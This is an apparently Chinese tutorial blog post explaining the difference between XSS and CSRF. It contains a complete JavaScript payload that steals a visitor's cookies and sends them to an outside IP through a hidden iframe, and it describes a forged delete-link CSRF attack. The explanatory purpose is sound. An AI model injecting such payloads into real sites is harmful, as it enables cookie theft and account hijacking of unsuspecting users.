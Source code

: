 ```yaml
---
layout: post
title:  "xss csrf 捋之"
date:   2015-11-29 16:48:52 +0800
categories: jekyll update
---
```


XSS： 通过客户端脚本语言（最常见如：JavaScript）在一个论坛发帖中发布一段恶意的JavaScript代码就是脚本注入，如果这个代码内容有请求外部服务器，那么就叫做XSS！

CSRF：又称XSRF，冒充用户发起请求（在用户不知情的情况下）,完成一些违背用户意愿的请求（如恶意发帖，删帖，改密码，发邮件等）。

> XSS与CSRF的区别，虽然这两个关键词时常抱团出现，但他们两个是不同维度的东西（或者说他们的目的是不一样的）。 XSS更偏向于方法论，CSRF更偏向于一种形式，只要是伪造用户发起的请求，都可成为CSRF攻击。

通常来说CSRF是由XSS实现的，所以CSRF时常也被称为XSRF[用XSS的方式实现伪造请求]（但实现的方式绝不止一种，还可以直接通过命令行模式（命令行敲命令来发起请求）直接伪造请求[只要通过合法验证即可]）。 XSS更偏向于代码实现（即写一段拥有跨站请求功能的JavaScript脚本注入到一条帖子里，然后有用户访问了这个帖子，这就算是中了XSS攻击了），CSRF更偏向于一个攻击结果，只要发起了冒牌请求那么就算是CSRF了。

### XSS
那么XSS（跨站脚本）就是照瓢画葫了，用JavaScript写一个请求跨站的脚本就是XSS了，如下：

````
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

此段代码携带着cookie信息传输给了 http://192.168.123.123/myxss/... 这段服务器，然后服务器的代码就可以接收到了用户的隐私消息，继而继续做其他的业务处理（myxss/index.php 中写一些xxx的代码，如把用户信息存进自己的数据库）。


这里tips一下：上面的代码仅仅是XSS，并没有发生CSRF，因为192.168.123.123/myxss/index.php 仅仅是把用户信息存起来了而已，他并没有“伪造”用户发起一些请求，所以他只算是XSS攻击而不算是CSRF攻击，如果192.168.123.123/myxss/index.php 写的代码是 将当前用户的昵称改为“我是大笨猪”，那么就算是CSRF攻击了，因为这段代码伪造用户发出了请求（但是用户却不自知）。

### CSRF

最简单的CSRF攻击（没有用到XSS的哦）：一个论坛，经过多次抓包分析（着重分析请求返回头，请求返回体）了解到这个论坛的删帖操作是触发 csdnblog.com/bbs/delete_article.php?id=“X" 那么，我只需要在论坛中发一帖，包含一链接：www.csdnblog.com/bbs/delete_article.php?id=“X" ，只要有用户点击了这个链接，那么ID为X的这一篇文章就被删掉了，而且是用户完全不知情的情况。既然删除操作可以伪造，那么只要细细分析，其他操作（发帖，改名字，发私信，只要是这个论坛具有的功能）都可以伪造！
